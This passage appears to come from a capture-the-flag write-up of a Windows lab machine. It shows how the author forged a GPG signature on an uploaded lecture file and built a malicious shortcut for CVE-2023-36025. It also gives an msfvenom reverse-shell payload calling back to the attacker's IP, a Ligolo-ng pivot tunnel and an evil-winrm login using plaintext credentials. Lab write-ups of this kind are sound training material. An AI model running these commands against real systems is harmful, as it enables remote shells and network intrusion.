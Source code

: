 ![](/assets/images/writeups/university/lecture-upload.png)

Professors can upload lectures, but the files need to be signed. Cool, so I spin up a GPG key for our fake professor and decide to get messy with it.

```console
$ gpg --gen-key

Real name: martin.rose
Email address: martin.rose@hotmail.com
You selected this USER-ID:
    "martin.rose <martin.rose@hotmail.com>"

$ gpg --export -a "martin.rose" > GPG-public-key.asc
```
Since this machine has not been updated for some time, we can suspect it being vulnerable to [CVE-2023-36025](https://github.com/ka7ana/CVE-2023-36025). So I cook up the most suspicious shortcut of all time: drop a batch file on `C:\Windows\Temp`, yeet a `.url` link to it inside a ZIP, slap a signature on it like I’m forging hall passes, and then upload it for the Content Evaluators like, “hey bestie, pls click my totally legit file ❤️.”

```console
$ cat link.url 
[InternetShortcut]
URL=file://C:/Windows/Temp/shell.bat
$ msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.65 lport=1337 > rev.bat

$ zip Lecture.zip link.url
$ gpg -u "martin.rose" --detach-sign Lecture.zip
```

Except... crickets. No callback. Alright, pivot time. Ping sweep the `192.168.99.0/24` subnet, find `WS-3` and `LAB-2` just chilling. Fire up [Ligolo-ng](https://github.com/nicocha30/ligolo-ng), proxy up, route the subnet, and remote into `WS-3` like it’s my side chick.

```console
$ sudo ip tuntap add user $USER mode tun ligolo
$ sudo ip link set ligolo up
$ ./proxy -selfcert -laddr 0.0.0.0:11601 

PS C:\Windows\Temp> ./agent.exe -connect 10.10.14.65:11601 -ignore-cert

$ sudo ip route add 192.168.99.0/24 dev ligolo
$ evil-winrm -i 192.168.99.2 -u 'wao' -p 'WebAO1337'
```
